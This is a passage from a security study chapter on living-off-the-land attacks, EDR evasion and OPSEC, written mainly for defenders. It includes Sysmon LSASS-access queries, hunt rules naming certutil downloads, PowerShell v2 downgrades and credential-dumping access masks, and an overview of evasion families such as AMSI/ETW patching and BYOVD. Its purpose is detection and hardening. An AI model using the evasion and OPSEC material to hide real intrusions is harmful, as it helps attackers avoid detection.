  Where-Object { $_.Id -eq 10 -and $_.Message -match "lsass.exe" } |
  Select-Object -First 5 TimeCreated,
    @{n='Grantor';e={($_.Message -split "`n" | Select-String 'SourceImage') }}
```

Representative event fields:

```
TargetImage:   C:\Windows\system32\lsass.exe
GrantedAccess: 0x1010   (or 0x1410/0x143a for read+query)
SourceImage:   C:\...\SomeProcess.exe
CallTrace:     ntdll.dll+... -> KERNELBASE.dll+...
```

**What you proved:** the *access mask* and *source image* are the detection. Real
credential dumpers request specific access rights (e.g. `PROCESS_VM_READ`) — a
non-security `SourceImage` opening `lsass` with those rights is a near-certain
alert. You reproduced the highest-fidelity Windows detection with zero risk. Now add
**Credential Guard / PPL** in the lab and observe the access being denied outright —
seeing the control work is the best way to justify deploying it.

### 5.4 Observe the sensor asymmetry (thought-experiment, from Part 2)

You can't safely run real evasion here, but you *can* reason about it with the data
in front of you: note that Event ID 1 (process creation) comes from a **kernel
callback** — no amount of user-mode `ntdll` unhooking in a child process removes
that record. That is why, in Part 3, the "sensor still firing" column keeps pointing
back to kernel/ETW-TI. The lab makes the theory concrete: the loudest, most reliable
events are the ones sourced below user mode.

---

## Part 6: Real-World Patterns & Case Studies

- **LotL is the norm, not the exception:** major intrusion reports repeatedly show
  actors (from commodity crews to nation-state groups) relying on `powershell`,
  `wmic`, `psexec`, `net`, and scheduled tasks precisely because they blend with
  administration. The "how did they persist for months?" answer is usually "they
  looked like IT."
- **BYOVD went mainstream:** multiple ransomware and APT operations have loaded
  signed-but-vulnerable drivers to disable EDR from the kernel, which is why
  Microsoft maintains and ships a **vulnerable-driver blocklist** and pushes HVCI.
- **AMSI/ETW patching in offensive tooling:** these are standard features in modern
  offensive frameworks, which is exactly why defenders learned not to trust "AMSI
  clean" and to lean on kernel/ETW-TI and script-block logging.
- **"The absence of telemetry is telemetry":** mature SOCs alert when an endpoint
  that *should* be chatty (EDR heartbeat, expected ETW) goes quiet — a classic sign
  of tampering or an agent being killed.
- **PowerShell v2 downgrade blind spot:** repeatedly abused to escape AMSI/script-
  block logging, which is why "remove the PSv2 engine" is standard hardening guidance
  and `-Version 2` is a common detection rule.
- **WMI persistence in long-dwell intrusions:** permanent WMI event subscriptions
  have kept footholds alive across reboots undetected for months in real cases —
  precisely because many orgs never enumerate `root\subscription`. A one-time hunt
  plus Sysmon 19/20/21 closes the gap.

The recurring meta-lesson across every case: **the technique migrates, but the
residual telemetry in a kernel/ETW-TI-anchored sensor stack does not disappear —
the defender's job is to have built the detection where the signal survives.**

---

## Part 7: Detection & Defense Angle (Consolidated)

### 7.1 Instrumentation baseline

- **Deploy EDR + Sysmon** with a strong config; enable **PowerShell script-block +
  module logging** and **command-line auditing** everywhere.
- Ensure **ETW-TI**-capable EDR and **memory scanning** are enabled — these survive
  most user-mode evasion.
- Monitor **EDR/agent health**: alert on agent stop, driver unload, or telemetry
  gaps (absence-of-signal detection).

### 7.2 Behavioural analytics (the LotL answer)

- **Lineage + sequence scoring:** score process trees for discovery bursts,
  suspicious parents (Office/script hosts → admin tools), and download-then-execute
  chains. Single-command rules can't catch LotL; sequence can.
- **Rare-parent/rare-child analytics:** `certutil` making network connections;
  `regsvr32` fetching remote scriptlets; `rundll32` with no DLL; `msbuild` running a
  user-profile project — all high-signal.
- **Time/role baselining:** unusual admin tooling from unusual users, hosts, or
  hours.

### 7.3 Anti-evasion anchors

- **Trust the kernel layers:** build core detections on process/image/thread
  callbacks and ETW-TI, which unhooking and AMSI/ETW-patching don't silence.
- **Driver-load monitoring + vulnerable-driver blocklist (HVCI/WDAC):** the primary
  BYOVD counter.
- **AMSI-failure and script-block anomalies:** treat "AMSI disabled" as a detection,
  not a pass.
- **Memory scanning (YARA/pe-sieve/Moneta-style):** catches unbacked executable
  memory, injected regions, and sleeping-beacon artifacts during awake windows.

### 7.3b A repeatable hunt loop for LotL

Detection engineering and threat hunting share one loop. Run it continuously:



The discipline that makes this work is **baselining before alerting**: for each LotL
candidate (certutil-download, PSv2 launch, new WMI subscription, 7045 from a
workstation, LSASS handle from non-security process), first learn what "normal"
looks like in *your* environment, then alert on the residual. A rule shipped without
baselining either floods the SOC or is silently disabled — both failures hand the
noise floor back to the operator.

### 7.4 Surface reduction (the wall, again)

- **Application control (WDAC/AppLocker)** to constrain which binaries and scripts
  run at all; **constrained language mode** for PowerShell; **disable WSH** where
  feasible; **ASR rules** (Chapter 6) to block LOLBin abuse paths.



---

## Part 8: Common Pitfalls & Misconfigurations

**Attacker-side tells (your detections):**

- **Discovery bursts** — many recon commands in seconds under one tree.
- **LOLBin misuse** — `certutil`/`bitsadmin` downloading, `regsvr32` remote
  scriptlet, `rundll32` with odd args.
- **Default artifacts** — framework-default named pipes, service names, injection
  targets.
- **Vulnerable-driver load** on a workstation.
- **Telemetry going dark** on a host that should be chatty.

**Defender-side pitfalls:**

- **Relying on user-mode sensors alone** (AMSI/ntdll hooks) — the easiest to beat.
- **No script-block or command-line logging** — you see "powershell ran," not what.
- **Alert fatigue on benign admin tooling** — un-baselined `net`/`wmic` noise buries
  the real thing; tuning *is* security here.
- **Ignoring agent-health/telemetry-gap signals** — the quiet host is often the
  compromised one.
- **No application control / ASR** — leaving every LOLBin and script host available.

---

## Part 9: Final Revision / Summary

- **Living off the land** uses built-in signed binaries (LOLBins), native admin
  tools, and scripting engines so activity blends with administration — turning
  detection from "is this malware?" into the harder "which `powershell` is
  malicious?".
- The answer is **context**: parent process, command line, sequence, user, host,
  time. **Lineage and sequence analytics** catch LotL that single-event rules miss.
- **EDR is a stack of sensors**: kernel callbacks and minifilters (hard to tamper),
  ETW-TI (kernel-fed), ETW (.NET/PS), AMSI, and user-mode `ntdll` hooks (easiest to
  tamper). Design detections so beating the tamperable user-mode layers still leaves
  kernel/ETW-TI firing.
- **Evasion families** (AMSI tamper, ETW tamper, unhooking, direct/indirect
  syscalls, sleep obfuscation, BYOVD, injection/masquerade) each blind a specific
  sensor — and each leaves a residual signal in a sensor it *can't* silence. That
  residual is where you detect.
- **BYOVD**'s counter is driver-load monitoring plus the vulnerable-driver blocklist
  (HVCI/WDAC); **AMSI tamper**'s counter is script-block logging + AMSI-fail alerts +
  memory scanning.
- **OPSEC** = staying under the noise floor: blend with baseline tooling/timing,
  minimize footprint, avoid defaults, compartmentalize noisy actions. The defender's
  mirror: **the lower your false-positive rate on benign admin activity, the less
  room an operator has to hide.**
- Surface reduction (WDAC/AppLocker, constrained language mode, WSH off, ASR) is the
  wall; behavioural detection anchored in kernel/ETW-TI is the net.

**Memory hook:** *"They live off your land; you watch from the kernel."* The
operator's whole game is to look like your admins using your own tools — so your
whole counter-game is context (lineage, sequence, rarity, timing) built on the
sensors they can't reach from user mode. Reduce the surface, baseline the benign,
and place your loudest detections where even a careful adversary must pay the signal
cost: LSASS access, driver loads, new persistence, and credential extraction.

---

## Part 10: Cheat Sheet / Quick Reference

**Sensor trust order (most→least tamper-resistant):** kernel callbacks ≈ minifilter
≈ ETW-TI > ETW(.NET/PS) > AMSI > ntdll user hooks.

**LotL detection = context, not command:**

```text
suspicious = benign_command × (bad_parent + burst_sequence + rare_user/host/time)
```

| Evasion | Blinds | Detect via |
|---------|--------|-----------|
| AMSI patch | AMSI | 4104 script-block, AMSI-fail, memscan |
| ETW patch | User ETW | ETW-TI, telemetry-absence |
| Unhook ntdll | User hooks | kernel callbacks, fresh-ntdll load |
| Syscalls direct/indirect | User hooks | kernel callbacks, unbacked mem/callstack |
| Sleep obfuscation | Idle memscan | perm-flip pattern, beacon cadence |
| BYOVD | Kernel callbacks | driver-load alert + blocklist (HVCI) |
| Injection/masquerade | Attribution | cross-proc mem, remote thread, PPID mismatch |

**Must-have logging:** Sysmon (EID 1 process, 7 image-load, 3 network, 11 file, 13
registry) · PowerShell 4104 + module logging · command-line auditing · EDR w/ ETW-TI
+ memory scan · agent-health/telemetry-gap alerts.

**Surface reduction:** WDAC/AppLocker · PowerShell Constrained Language Mode · WSH
disabled · ASR rules in **block** mode · vulnerable-driver blocklist on.

**Golden rules:** trust the kernel, distrust user mode; absence of telemetry is
telemetry; baseline the benign so the anomalous stands out; every noisy action must
answer "what event does this create and can the sensor see it?"

**One-line hunts to seed your backlog:**

- `Image=\certutil.exe AND CommandLine contains (urlcache|decode|encode)` → LOLBin download/decode.
- `powershell*.exe AND CommandLine contains "-version 2"` → AMSI/logging downgrade.
- New object in `root\subscription` (Sysmon 19/20/21) → WMI persistence.
- `TargetImage=lsass.exe AND GrantedAccess in (0x1010,0x1410,0x143a)` from non-security `SourceImage` → credential access.
- Event `7045` (service install) from a workstation outside known deployment tooling → lateral movement.
- `parent in {WINWORD,EXCEL,ONENOTE,mshta,wscript} AND child in {powershell,cmd,net,nltest,reg}` → delivery-to-discovery bridge.

---

## Part 11: Practice Labs & Resources

- **TryHackMe — "Sysmon", "Windows Event Logs", "Core Windows Processes", "Tempest",
  "Aurora", "Investigating Windows"**: instrument endpoints and hunt LotL in real
  telemetry — the exact skill of this chapter.
- **TryHackMe / HackTheBox Academy — "Living off the Land", "Detecting Threats"
  modules:** map ATT&CK techniques to the events they generate.
- **Atomic Red Team (benign atomics for T1059 Command/Scripting, T1218 Signed
  Binary Proxy, T1105 Ingress Tool Transfer, T1105/T1071):** run the *benign* tests
  on a Sysmon-instrumented lab and confirm your lineage/sequence rules fire.
- **MITRE ATT&CK — Execution (TA0002), Defense Evasion (TA0005):** especially T1218
  (LOLBins), T1562 (Impair Defenses — AMSI/ETW), T1055 (Process Injection), T1014
  (Rootkit), T1211/BYOVD-related entries.
- **LOLBAS Project (lolbas-project.github.io):** the living catalog of abusable
  signed binaries — read it as a *detection* backlog, one rule per entry.
- **Microsoft vulnerable-driver blocklist + HVCI/WDAC docs:** deploy in a lab and
  verify a known-vulnerable driver hash is blocked from loading.
- **DetectionLab / SecurityOnion / a home range:** build the Part 5 setup at scale,
  add Zeek/Suricata + an ELK/Elastic SIEM, and practise correlation rules end to end.
- **Elastic/Sigma rule repositories:** study community Sigma rules for LOLBins and
  defense-evasion, then translate them to your SIEM and test with Atomic Red Team.

Work the Part 5 lab until, from Sysmon and PowerShell logs alone, you can (a) name
the parent/child lineage of any activity, (b) explain which sensor produced each
event and how tamperable it is, and (c) write a sequence rule that scores a
discovery burst. When that's automatic, you understand the endpoint battlefield
well enough to catch an operator who has beaten AMSI and unhooked `ntdll` — because
you built your net where they can't cut it. The next chapter chains Chapters 5–7
together into a single end-to-end **adversary-emulation** walkthrough in a lab
range, then hands off to reporting.

---

*Also on [Praneeth's portfolio](https://ping-praneeth.vercel.app/notebook/redteam-operations/07-living-off-the-land-edr-evasion-and-opsec-in-depth), with comments and the latest edits.*
